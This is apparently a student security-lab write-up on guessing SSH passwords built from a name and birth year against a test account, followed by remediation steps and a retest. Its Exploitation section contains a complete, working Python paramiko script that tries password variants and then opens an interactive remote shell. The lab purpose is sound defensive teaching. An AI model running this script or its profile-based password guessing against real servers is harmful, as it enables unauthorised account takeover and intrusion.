





# Attack 05 — SSH Credential Attack via Weak, Personally-Guessable Passwords

## Objective

Exploit SSH not through a protocol-level vulnerability, but through human
error: a server with no maximum authentication attempt limit, password
authentication left enabled, and a user account protected by a weak,
personally-guessable password. This attack specifically targets
**name+year** style passwords — a pattern still common enough to be a
realistic entry point, especially now that personal information needed to
guess them is often freely available.

## Attack Mechanism

SSH ships with password authentication enabled by default, and unless an
administrator explicitly configures `MaxAuthTries` (or fail2ban-style
lockout tooling), a server will accept an effectively unlimited number of
login attempts with no delay, throttling, or alerting. Combined with users
who base their passwords on identifiable personal details — most commonly
a first name plus a birth year — this turns password authentication into a
small, brute-forceable search space rather than a real barrier. The
vulnerability here isn't in the SSH protocol itself; it's in the
combination of permissive server defaults and predictable human behavior.

## Recon

This case study is a proof of concept, so the "recon" phase was scoped
down to a known test account rather than a live OSINT exercise. In a real
attack, this step would look like standard social-engineering
reconnaissance: an attacker identifies a target organization, finds an
employee's social media profile listing where they work, and — because
most people post far more identifying information publicly than they
realize — pulls together a name, an approximate age or birth year, and
other personal details directly from that profile. None of this requires
any technical exploitation; it's openly available information, and it's
often enough on its own to guess a weak password.

For this lab, the equivalent "recon" output was simply: the account name
is `jessica`, and her birth year is `1998`.

## Exploitation

With a name and a birth year in hand, a script was built to generate
plausible password combinations from those two pieces of information and
attempt an SSH login for each one, using `paramiko` to handle the
connection and authentication.

The script takes a name and a year as input, generates case variants of
the name (`UPPER`, `lower`, `Capitalize`) and digit variants of the year
(full year and two-digit year), and tries every combination in both
orders (name+year and year+name) as the password for that username. On a
successful authentication it drops into an interactive shell loop using
`exec_command`, with color-coded stdout/stderr for readability.

**`ssh_exploit.py`:**
```python
#!/usr/bin/env python3
import itertools
import time
import paramiko

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

n = input("Enter a name :")
y = input("Enter a year :")

name_variants = [n.upper(), n.lower(), n.capitalize()]
digit_variants = [y, y[2:]]
combo = itertools.product(name_variants, digit_variants)
Lc = list(combo)

found = False
for c in Lc:
    if found:
        break
    combo1 = c[0] + c[1]
    combo2 = c[1] + c[0]
    for guess in [combo1, combo2]:
        try:
            client.connect(
                "192.168.10.21",
                username=n,
                password=guess,
                timeout=3,
                banner_timeout=3
            )
            print(f"[+] Connection successful with password: {guess}")
            found = True
            break
        except paramiko.AuthenticationException:
            print(f"[-] Authentication failed for: {guess}")
            client.close()
        except Exception as e:
            print(f"[!] Connection error ({e}), retrying...")
            client.close()
        finally:
            if not found:
                time.sleep(0.3)

if found:
    while True:
        try:
            command = input(f"\033[94m{n}>\033[0m")
            if command.strip().lower() in ["exit", "quit"]:
                client.close()
                break

            stdin, stdout, stderr = client.exec_command(command)
            output = stdout.read().decode('utf-8')
            error = stderr.read().decode('utf-8')

            if output:
                print(f"\033[92m{output}\033[0m", end="")
            if error:
                print(f"\033[91m{error}\033[0m", end="")
        except KeyboardInterrupt:
            client.close()
            break
else:
    print("No valid password found.")
```

Running the script against `jessica`'s account with `1998` as the year
produced a successful authentication:



Because no `MaxAuthTries` limit was configured on the server, the script
was free to burn through every case/order combination without being
throttled, locked out, or flagged — the entire weakness of the attack in
one sentence.

## Result

This proof of concept stops at demonstrating credential compromise, but
the same access chain extends naturally further:

- If the compromised account is listed in `sudoers`, the attacker can
  escalate directly to root-equivalent actions on the box.
- If it isn't, the shell still functions as a persistent internal vantage
  point — enumerating other users, reading configuration files, checking
  installed services, and mapping the internal network from a trusted
  vantage point inside the perimeter.

Either way, a single weak, guessable password is enough to convert an
SSH server from a hardened entry point into an open door.

## Impact

A successful SSH credential compromise is rarely the end of an attack —
it's usually the beginning of one:

- **Full account takeover** — the attacker inherits everything that
  account is permitted to do, from reading private files to running
  arbitrary commands.
- **Privilege escalation risk** — if the account has any `sudo` rights, or
  if local privilege-escalation vectors exist on the host, a single
  compromised low-privilege account can become full root access.
- **Lateral movement** — a shell on one internal host is a foothold for
  reconnaissance and further attacks against everything else that host
  can reach.
- **Credential reuse exposure** — name+year passwords are rarely unique to
  one service; the same guessed password very often unlocks email,
  banking, or corporate accounts belonging to the same person.

This attack is especially dangerous because it requires no exploit code,
no CVE, and no technical vulnerability in SSH at all — just patience, a
name, a birth year, and a server that doesn't stop you from guessing.

## Remediation

Three changes were made, each closing a distinct piece of the exposure.

**1. Disable root login.**
This might seem unrelated to the specific account that was compromised,
but a weak password on the *root* account — the most powerful account on
the system — is a far more severe version of the same problem. If root is
reachable over SSH at all, that's a vulnerability in its own right, so
disabling it directly is standard best practice regardless of how strong
any individual password is.




**2. Disable password authentication.**
This is the core fix — the attack demonstrated above is entirely
dependent on password authentication being available. Removing it removes
the attack surface at its root, regardless of how strong or weak any
individual user's password is.



**3. Set up key-based authentication first.**
Before disabling password authentication, an SSH key pair was generated
and configured so legitimate access to the server would still be possible
afterward. This is a practical prerequisite rather than a security control
in itself, but it's worth noting: disabling password auth without first
establishing key-based access would have locked out legitimate use of the
server along with the attacker.

## Re-verification

`ssh_exploit.py` was re-run against the same account, providing the
correct name and year. Every attempt failed this time, despite the
credentials themselves being unchanged and correct:



With password authentication disabled, the correct password is no longer
sufficient to authenticate at all — the attack is closed regardless of
how weak the underlying password was.

## Lessons Learned

SSH is widely promoted as a secure protocol, and technically it is — but
that reputation can create a false sense of safety if the server isn't
actually configured correctly. This attack didn't touch SSH's cryptography
or protocol design at all; it exploited the fact that password
authentication was left on and paired with a weak, guessable password.
The real vulnerability wasn't technical — it was human.

That has two sides. On the server side, the fix is straightforward:
disable root login and disable password authentication in favor of keys.
On the user side, it's about habits that don't show up in any config file
— using genuinely strong, unique passwords, and being deliberate about
what personal information ends up public. Posting where you work, your
birth year, or other identifying details for no real reason gives an
attacker exactly the raw material this kind of attack needs; even a
strong password loses much of its value if the information used to guess
it is sitting in plain view on a public profile.

Going into this attack, I was initially looking for an SSH CVE to build
around, and found one involving a plaintext-recovery weakness in CBC-mode
ciphers on older OpenSSH versions. With guidance, I realized the more
realistic and arguably more dangerous vector wasn't a flaw in the protocol
or the software running it — it was the people who control access to
those machines. Not every attack needs a CVE; sometimes the simplest path
in is just knowing someone's name and the year they were born.
